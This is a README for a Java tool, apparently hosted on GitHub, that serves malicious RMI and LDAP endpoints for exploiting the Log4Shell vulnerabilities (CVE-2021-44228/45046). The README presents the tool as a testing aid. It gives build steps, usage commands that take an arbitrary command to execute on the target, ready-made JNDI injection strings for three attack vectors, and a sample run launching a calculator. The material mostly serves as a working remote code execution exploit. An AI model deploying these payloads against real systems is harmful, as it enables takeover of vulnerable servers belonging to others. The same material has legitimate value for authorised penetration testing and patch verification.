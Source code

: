 # Log4j-JNDIServer

This project will help to test the Log4j CVE-2021-44228/CVE-2021-45046 vulnerabilities.

## Installation and Building

- Load the project on Intellij Idea
- Select JDK in "Projects Settings" (CTRL + ALT + SHIFT + S)
- In "Project Settings", create the Artifact -> "Artifacts" -> "Create JAR from Modules" -> In "JAR files from libraries", mark "extract to target JAR" -> "OK"
- Build Project (CTRL + F9). This will create the jar file in /out/artifacts/ folder

### Building with Maven

Requires Java 1.8+ and Maven 3.x+

- `mvn clean package -DskipTests`
- You will find the .jar file in /target folder

## Usages 

### 1.RMI Attack Vector

`java -jar Log4j-JNDIServer.jar 1 <RMI_IP> <RMI_PORT> <HTTP_PORT> <COMMAND>`

You don't need to host the Exploit.class anymore. The app will start an HTTP server on the indicated port.

You must indicate the command you want to run in the target.

`Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}`

### 2.LDAP Attack Vector

`java -jar Log4j-JNDIServer.jar 2 <LDAP_IP> <LDAP_PORT> <HTTP_PORT> <COMMAND>`

You don't need to host the Exploit.class anymore. The app will start an HTTP server on the indicated port.

You must indicate the command you want to run in the target.

`Injection: {jndi:ldap://<LDAP_IP>:<LDAP_PORT>/Exploit}`

### 3.Deserialization Attack Vector (Using Tomcat payload)

`java -jar Log4j-JNDIServer.jar 3 <RMI_IP> <RMI_PORT> <COMMAND>`

`Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}`

## Example

```shell
$ java -jar Log4j-JNDIServer-1.0-SNAPSHOT-all.jar 3 127.0.0.1 1389 /usr/bin/gnome-calculator
- Starting RMI Server for Tomcat  -
- Creating RMI Server on port 1389 -
- Reference bound! -
- RMI server started at 127.0.0.1:1389 -
- Log4J Injection Path: ${jndi:rmi://127.0.0.1:1389/Foo} -
